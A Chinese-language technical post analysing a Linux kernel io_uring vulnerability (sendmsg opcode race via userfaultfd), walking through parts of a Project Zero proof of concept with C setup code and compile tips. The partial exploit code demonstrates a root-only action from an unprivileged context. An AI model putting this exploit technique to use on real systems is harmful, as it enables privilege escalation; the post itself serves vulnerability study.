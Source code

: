 ```
425        io_uring_setup
426        io_uring_enter
427        io_uring_register
```

`io_uring_setup` 会返回一个文件描述符`fd`, 后续都是用这个fd来做操作。

io_uring 涉及几个内存，盗一张图:

[![](./img/200486/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t010e34f35bf0fe69f9.jpg)

用户提交数据到`sq_ring`,然后内核处理完成之后，会把完成的状态写入到 `cq_ring`里面，用户在`cq_ring`就可以找到io的完成状态。



## poc 分析

漏洞是在[`commit 0fa03c624d8f ("io_uring: add support for sendmsg()", first in v5.3)`](https://github.com/torvalds/linux/commit/0fa03c624d8fc9932d0f27c39a9deca6a37e0e17)引入的，它添加了一个 `io_sendmsg` 方法， 对应的opcode 是`IORING_OP_SENDMSG 9`

我们拷贝一下[Jannh的poc](//bugs.chromium.org/p/project-zero/issues/detail?id=1975&amp;sort=-id%20-reported&amp;q=finder%3Djannh&amp;can=1)), 我的测试环境是在ubuntu 1804 上，测试内核用 linux 5.4 版本。

编译的时候可能会报错,可能是找不到系统调用号，在poc开始添加下面两行。把linux的`include/uapi/linux/io_uring.h`文件拷贝过来，然后把`#include &lt;linux/io_uring.h&gt;` 换成`#include "io_uring.h"` 就可以了

```
#define SYS_io_uring_setup 425 
#define SYS_io_uring_enter 426
```

poc 运行之后会添加一个inet 地址，这个是需要root权限才能操作的。

[![](./img/200486/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01b7288cbb00d35165.jpg)

首先调用`io_uring_enter`创建一个fd, 并把内存映射好

```
struct io_uring_params params = { };                                                                 int uring_fd = SYSCHK(syscall(SYS_io_uring_setup, /*entries=*/10, &amp;params));                         unsigned char *sq_ring = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_SQ_RING));                                                                                 unsigned char *cq_ring = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_CQ_RING));                                                                                 sqes = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_SQES));
```

然后用 userfaultfd 监听 `iov` 这一块内存

```
iov = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0));  
struct uffdio_register reg = {                                
    .mode = UFFDIO_REGISTER_MODE_MISSING,                       
    .range = { .start = (unsigned long)iov, .len = 0x1000 }     
  };
```

它会在 内存被读写的时候吧opcode改成`IORING_OP_SENDMSG`(9)
